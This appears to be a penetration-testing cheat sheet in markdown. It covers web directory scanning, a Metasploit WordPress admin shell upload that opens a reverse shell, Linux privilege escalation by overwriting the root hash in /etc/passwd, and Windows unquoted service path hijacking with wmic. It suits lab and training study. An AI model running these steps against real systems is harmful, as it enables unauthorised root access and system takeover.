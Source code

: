 ```dirsearch -u <url>```

- exploit suggester (metasploit) https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/ 

**Linux**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 


*Admin Shell upload - Wordpress*

Will create a reverse shell with a php shell and cleanup on its own. Need Wordpress admin access.

    use exploit/unix/webapp/wp_admin_shell_upload
    
*Find the Kernel version*

    uname -a -> on the local maschine

*Linuxprivchecker*

https://github.com/GammaG/linuxprivchecker

Then put in it apache directory. On the target machine make a file transfer to pull this.
This is the python version, but there are alternative versions.

    Copy the kernel as first thing and check if there is any exploits available.
    Check World Writeable Files (maybe passwd is in there)

End the Channel und go back to Meterpreter

    edit /etc/passwd
    (works as vi)

Open another terminal to generate the pw hash

    openssl passwd --help
    openssl passwd -1 (gives you an md5 hash)

Go back to meterpreter

    paste the hash instead of the "x" for root
    shell 
    python -c 'import pty; pty.spawn("/bin/bash")'
    su root

**Windows Enumeration**

*Check vulnerable services*

List all the running services on the maschine that are automatically started and non standard.

    wmic service get name,displayname,pathname,startmode |findstr /i "auto"|findstr /i /v "c:\windows" |findstr /i /v "\""
    wmic - gives a list of all running services
    /i - makes the search case insensitive
    /v ignores anything that contains the given String

Possible finding  C:\Program Files\... --> can be used by putting a file with name Files.exe under C:\Program

*check dir permissions*

```